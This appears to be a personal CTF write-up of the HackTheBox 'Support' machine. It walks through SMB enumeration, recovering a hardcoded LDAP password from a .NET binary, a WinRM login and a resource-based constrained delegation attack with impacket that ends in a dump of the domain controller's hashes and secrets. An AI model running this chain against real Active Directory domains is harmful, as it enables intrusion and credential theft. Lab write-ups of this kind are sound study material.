

---
tags:
  - windows
---
# HTB: [Support](https://app.hackthebox.com/machines/Support)

These are my own lightly-edited notes, and not necessarily a detailed walk-through.

## Summary

This box is an exercise in reversing a C# executable, decoding a password for valid credentials to query LDAP. From there, another password is recoverable for an account with `GenericAll`, allowing a [Resource-based Constrained Delegation Attack](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation).

## Services

### TCP

- Target: `support.htb 10.10.11.174`
- Command: `nmap -v --reason -Pn -T4 --min-rate 10000 -p- --open -sCV -oA nmap_tcp-support.htb support.htb

#### 445/tcp-microsoft-ds

There's a readable share called `support-tools`. I got lots of timeouts so I mounted the share using `mount.cifs`:

 `sudo mount -t cifs //support.htb/support-tools ./smbmount -o username=Guest`

 Here's the listing of files I copied over from that share:

```console
$ ls -lh
total 98M
-rw-r----- 1 e e 2.8M Sep 27 15:18 7-ZipPortable_21.07.paf.exe
-rw-r----- 1 e e  46M Sep 27 15:23 SysinternalsSuite.zip
-rw-r----- 1 e e 271K Sep 27 15:23 UserInfo.exe.zip
-rw-r----- 1 e e  43M Sep 27 15:30 WiresharkPortable64_3.6.5.paf.exe
-rw-r----- 1 e e 5.2M Sep 27 15:31 npp.8.4.1.portable.x64.zip
-rw-r----- 1 e e 1.3M Sep 27 15:32 putty.exe
-rw-r----- 1 e e  78K Sep 27 15:32 windirstat1_1_2_setup.exe
```

```console
$ nxc smb support.htb -u Guest -p '' --rid-brute
SMB         10.10.11.174    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.174    445    DC               [+] support.htb\Guest:
SMB         10.10.11.174    445    DC               498: SUPPORT\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.174    445    DC               500: SUPPORT\Administrator (SidTypeUser)
SMB         10.10.11.174    445    DC               501: SUPPORT\Guest (SidTypeUser)
SMB         10.10.11.174    445    DC               502: SUPPORT\krbtgt (SidTypeUser)
SMB         10.10.11.174    445    DC               512: SUPPORT\Domain Admins (SidTypeGroup)
SMB         10.10.11.174    445    DC               513: SUPPORT\Domain Users (SidTypeGroup)
SMB         10.10.11.174    445    DC               514: SUPPORT\Domain Guests (SidTypeGroup)
SMB         10.10.11.174    445    DC               515: SUPPORT\Domain Computers (SidTypeGroup)
SMB         10.10.11.174    445    DC               516: SUPPORT\Domain Controllers (SidTypeGroup)
SMB         10.10.11.174    445    DC               517: SUPPORT\Cert Publishers (SidTypeAlias)
SMB         10.10.11.174    445    DC               518: SUPPORT\Schema Admins (SidTypeGroup)
SMB         10.10.11.174    445    DC               519: SUPPORT\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.174    445    DC               520: SUPPORT\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.174    445    DC               521: SUPPORT\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.174    445    DC               522: SUPPORT\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.174    445    DC               525: SUPPORT\Protected Users (SidTypeGroup)
SMB         10.10.11.174    445    DC               526: SUPPORT\Key Admins (SidTypeGroup)
SMB         10.10.11.174    445    DC               527: SUPPORT\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.174    445    DC               553: SUPPORT\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.174    445    DC               571: SUPPORT\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.174    445    DC               572: SUPPORT\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.174    445    DC               1000: SUPPORT\DC$ (SidTypeUser)
SMB         10.10.11.174    445    DC               1101: SUPPORT\DnsAdmins (SidTypeAlias)
SMB         10.10.11.174    445    DC               1102: SUPPORT\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.174    445    DC               1103: SUPPORT\Shared Support Accounts (SidTypeGroup)
SMB         10.10.11.174    445    DC               1104: SUPPORT\ldap (SidTypeUser)
SMB         10.10.11.174    445    DC               1105: SUPPORT\support (SidTypeUser)
SMB         10.10.11.174    445    DC               1106: SUPPORT\smith.rosario (SidTypeUser)
SMB         10.10.11.174    445    DC               1107: SUPPORT\hernandez.stanley (SidTypeUser)
SMB         10.10.11.174    445    DC               1108: SUPPORT\wilson.shelby (SidTypeUser)
SMB         10.10.11.174    445    DC               1109: SUPPORT\anderson.damian (SidTypeUser)
SMB         10.10.11.174    445    DC               1110: SUPPORT\thomas.raphael (SidTypeUser)
SMB         10.10.11.174    445    DC               1111: SUPPORT\levine.leopoldo (SidTypeUser)
SMB         10.10.11.174    445    DC               1112: SUPPORT\raven.clifton (SidTypeUser)
SMB         10.10.11.174    445    DC               1113: SUPPORT\bardot.mary (SidTypeUser)
SMB         10.10.11.174    445    DC               1114: SUPPORT\cromwell.gerard (SidTypeUser)
SMB         10.10.11.174    445    DC               1115: SUPPORT\monroe.david (SidTypeUser)
SMB         10.10.11.174    445    DC               1116: SUPPORT\west.laura (SidTypeUser)
SMB         10.10.11.174    445    DC               1117: SUPPORT\langley.lucy (SidTypeUser)
SMB         10.10.11.174    445    DC               1118: SUPPORT\daughtler.mabel (SidTypeUser)
SMB         10.10.11.174    445    DC               1119: SUPPORT\stoll.rachelle (SidTypeUser)
SMB         10.10.11.174    445    DC               1120: SUPPORT\ford.victoria (SidTypeUser)
```

Cleaned:

```text
$ cat u.txt
anderson.damian
bardot.mary
cromwell.gerard
daughtler.mabel
ford.victoria
hernandez.stanley
langley.lucy
ldap
levine.leopoldo
monroe.david
raven.clifton
smith.rosario
stoll.rachelle
support
thomas.raphael
west.laura
wilson.shelby
```

## Remote Code Execution

In the `support-tools` share, there's a custom binary called `UserInfo.exe`.

```csharp
$ ./ICSharpCode.ILSpyCmd/bin/Debug/net8.0/ilspycmd ~/htb-support/support-tools/UserInfo/UserInfo.exe
using System;
using System.Collections;
using System.Diagnostics;
...
namespace UserInfo.Services
{
        internal class Protected
        {
                private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";

                private static byte[] key = Encoding.ASCII.GetBytes("armando");
...
```

And here's how it's used:

```csharp
public LdapQuery()
                {
                        //IL_0018: Unknown result type (might be due to invalid IL or missing references)
                        //IL_0022: Expected O, but got Unknown
                        //IL_0035: Unknown result type (might be due to invalid IL or missing references)
                        //IL_003f: Expected O, but got Unknown
                        string password = Protected.getPassword();
                        entry = new DirectoryEntry("LDAP://support.htb", "support\\ldap", password);
                        entry.AuthenticationType = (AuthenticationTypes)1;
                        ds = new DirectorySearcher(entry);
                }
```

Here's a Python script to decode it:

```python
#!/usr/bin/env python3

import base64

# Encoded password from the C# code.
enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"

# Key used in the XOR operations.
key = "armando"
key_bytes = key.encode('ascii')

# Decode the base64 encoded password to get the byte array
array = base64.b64decode(enc_password)

# Prepare a bytearray to hold the decrypted bytes
array2 = bytearray(len(array))

# Perform the decryption by XORing each byte
for i in range(len(array)):
    key_byte = key_bytes[i % len(key_bytes)]
    temp = array[i] ^ key_byte
    temp = temp ^ 0xDF  # XOR with 0xDF.
    array2[i] = temp & 0xFF  # Ensure the result is within byte range.

# Decode the decrypted bytearray to get the original password string.
password = array2.decode('utf-8')

print("Decoded password:", password)
```

```console
$ ./decode.py
Decoded password: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

The credentials seem to work via `nxc smb …` but I can't actually do anything that way. I can use `ldapsearch` though:

```console
$ ldapsearch -x -H ldap://10.10.11.174 -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=SUPPORT,DC=HTB"
...
```

There's a conspicuous `info` field for the user `support`:

```text
# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
  info: Ironside47pleasure40Watchful
```

```powershell
$ evil-winrm -i support.htb -u 'support' -p 'Ironside47pleasure40Watchful'
Evil-WinRM shell v3.5
...
*Evil-WinRM* PS C:\Users\support\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\support\Desktop> cat user.txt
9cb755...
```

## Privilege Escalation

The `support` account has `GenericAll`:



This allows a [Resource-based Constrained Delegation Attack](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation). Follow that link for the HackTricks version, here's a way to do it from Kali:

```console
$ impacket-addcomputer -computer-name 'x$' -computer-pass 'pw' -dc-ip 10.10.11.174 support.htb/support:Ironside47pleasure40Watchful
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Successfully added machine account x$ with password pw.

$ impacket-rbcd -delegate-from 'x$' -delegate-to 'dc$' -dc-ip 10.10.11.174 -action 'write' support.htb/support:Ironside47pleasure40Watchful
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] x$ can now impersonate users on dc$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     x$           (S-1-5-21-1677581083-3380853377-188903654-5601)


$ impacket-getST -spn 'cifs/dc.support.htb' -impersonate administrator -dc-ip 10.10.11.174 'support.htb/x$:pw'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache

$ export KRB5CCNAME=./administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache

$ impacket-secretsdump -target-ip 10.10.11.174 dc.support.htb -k
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xf678b2597ade18d88784ee424ddc0d1a
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb06cbc02b39abeddd1335bc30b19e26:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
SUPPORT\DC$:plain_password_hex:264f9fd3762d4b4bb36f21e1c5d89c876aa6586acb98eb7c21cf10cd38cbc23934b1a89963f32ac41b8f37e1888369c630130034f94d757b41b1899a14ba62315b13e665cf9de28ff5e4d6800b9106d4e2c3701c1130d8334def07237351df3a89ce6bc7f93c2656179e1d55b80e78ab0e5f115e8ca183d5c051fa57bd395255ca95e84d12510239112e9987af6a4fd5dd52d9e710ec46dfa48445ca6cf334d496862e7965c45c774443f1708390a1294393a5208dd2f6fb6ef834d468e69fceeac493692444091794d83e835d6ff713787aeb01ad2613ea2c9f79f6cc0388794cfd47c55fb58f5da4b090466986bd2e
SUPPORT\DC$:aad3b435b51404eeaad3b435b51404ee:7693b13cc24bdb2bacec4b210f981af3:::
[*] DPAPI_SYSTEM
dpapi_machinekey:0x5f39b9187072640dd3b9ebc53cdcbd2cda166279
dpapi_userkey:0xc98d4a2ff3c17181eaaad459d6383cff7c72bc2d
[*] NL$KM
 0000   D7 80 3F C7 76 67 B3 22  E7 C9 9B 98 33 D7 F1 A4   ..?.vg."....3...
 0010   E9 EE B2 38 B7 E0 34 5F  12 36 AB 44 F2 4F 75 7D   ...8..4_.6.D.Ou}
 0020   56 22 0F 0F 3C 2D 2E 4C  E6 FD 61 01 63 A4 32 B4   V"..<-.L..a.c.2.
 0030   CE 66 7B DB E7 CF 28 F8  4C 9E 9C 46 A0 61 1B 8B   .f{...(.L..F.a..
NL$KM:d7803fc77667b322e7c99b9833d7f1a4e9eeb238b7e0345f1236ab44f24f757d56220f0f3c2d2e4ce6fd610163a432b4ce667bdbe7cf28f84c9e9c46a0611b8b
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb06cbc02b39abeddd1335bc30b19e26:::
```
